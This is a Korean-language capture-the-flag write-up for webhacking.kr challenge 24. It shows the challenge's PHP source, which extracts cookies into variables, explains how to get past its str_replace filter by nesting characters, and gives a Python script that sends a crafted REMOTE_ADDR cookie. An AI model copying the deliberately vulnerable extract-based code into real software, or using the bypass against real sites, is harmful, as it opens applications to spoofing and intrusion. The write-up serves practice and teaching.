

================================================================================================================
[webhacking.kr] 24
================================================================================================================

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5;
        }
        step0 -> step1[label="REMOTE_ADDR=112277..00..00..1",arrowhead="normal"];
        step3 -> step2[label="@solve",arrowhead="normal"];
    }

|

Source analysis
================================================================================================================

1. 인젝션 취약점이 존재할 수 있는 입력부분을 찾아 인젝션 존재 여부를 확인합니다. 

먼저 접속하면 client ip와 agent 정보를 보여주고 있습니다.

.. code-block:: html

    <html>
    <head>
    <title>Challenge 24</title>
    </head>
    <body>
    <?

    extract($_SERVER);
    extract($_COOKIE);

    if(!$REMOTE_ADDR) $REMOTE_ADDR=$_SERVER[REMOTE_ADDR];

    $ip=$REMOTE_ADDR;
    $agent=$HTTP_USER_AGENT;

    if($_COOKIE[REMOTE_ADDR])
    {
    $ip=str_replace("12","",$ip);
    $ip=str_replace("7.","",$ip);
    $ip=str_replace("0.","",$ip);
    }

    echo("<table border=1><tr><td>client ip</td><td>$ip</td></tr><tr><td>agent</td><td>$agent</td></tr></table>");

    if($ip=="127.0.0.1")
    {
    @solve();
    }

    else
    {
    echo("

Wrong IP!

");
    }
    ?>
    <!--
    source : index.phps
    -->
    </body>
    </html>

결과적으로 @solve에 도달하려면 127.0.0.1이라는 값이 들어가야합니다.

|

Filtering Bypass
================================================================================================================

소스 내용을 보시면 트릭이 있습니다. str_replace를 통해 입력된 값을 바꿔치기 하는 데 2글자에 대해 바꿔치기를 하는 군요.
그렇다면 여기서 부터는 puzzle 문제 처럼 되네요.

.. code-block:: text

    1122 -> 12
    77.. -> 7.
    00.. -> 0.
    00.. -> 0.
    1 -> 1

cookie값에 다음 값을 붙여서 입력하면 문제 Clear!!

.. code-block:: python

    import requests

    url = "http://webhacking.kr/challenge/bonus/bonus-4/index.php"
    cookies = {"PHPSESSID":"fv2vg5nef63pavpm7s22j7ajh1", "REMOTE_ADDR":"112277..00..00..1"}
    response = requests.get(url, cookies=cookies)
    print response.text

